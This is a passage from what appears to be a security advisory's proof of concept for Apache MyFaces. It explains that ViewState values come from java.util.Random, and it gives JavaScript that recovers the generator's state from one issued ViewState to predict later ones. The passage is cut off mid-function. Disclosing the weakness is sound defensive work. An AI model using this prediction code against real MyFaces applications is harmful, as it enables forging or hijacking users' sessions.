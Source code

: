     Proof of Concept
    ----------------

    By default, the class
    `org.apache.myfaces.application.viewstate.RandomKeyFactory` is used to
    generate ViewState parameter values. This class uses the method
    `java.util.Random#nextBytes` as well as a per-session counter value to
    generate ViewState strings.

    The following JavaScript snippet demonstrates the generation of the random
    part of a ViewState value based on the random part of a previously issued
    ViewState parameter:

    ``` {.javascript}
    const multiplier = 0x5DEECE66Dn;
    const addend = 0xBn;
    const mask = (1n << 48n) - 1n;

    const unbyte = (bytes, offset) => BigInt(
        Array.from(bytes.slice(offset, offset + 4))
        .map((b, i) => b << (8 * i))
        .reduce((a, b) => a + b));

    const longify = n => integer(n, 8n);
    const intify = n => integer(n, 4n);
    const byteify = n => integer(n, 1n);

    function integer(n, len) {
        const bits = len * 8n;
        const hspan = 1n << (bits - 1n);
        return ((n + hspan) % (2n * hspan)) - hspan;
    }

    const hexToByteArray = s => (new Uint8Array(s.length / 2)
        .map((_, i) => (
            parseInt(s.charAt(2 * i), 16) << 4 |
            parseInt(s.charAt(2 * i + 1), 16))));

    const byteArrayToHex = b => (Array.from(b)
        .map(x => (((x + 0x100).toString(16)).substr(-2)))
        .reduce((a, b) => a + b))
        .toUpperCase();

    // based on https://github.com/fta2012/ReplicatedRandom/blob/master/ReplicatedRandom.java
    function replicatedRandom(bytes) {
        let seed = 0;

        replicateState(
            unbyte(bytes, bytes.length - 8), 32n,
            unbyte(bytes, bytes.length - 4), 32n);

        return nextBytes(bytes.length);

        function replicateState(nextN, n, nextM, m) {
            const upperMOf48Mask = ((1n << m) - 1n) << (48n - m);
            const oldSeedUpperN = (nextN << (48n - n)) & mask;
            const newSeedUpperM = (nextM << (48n - m)) & mask;
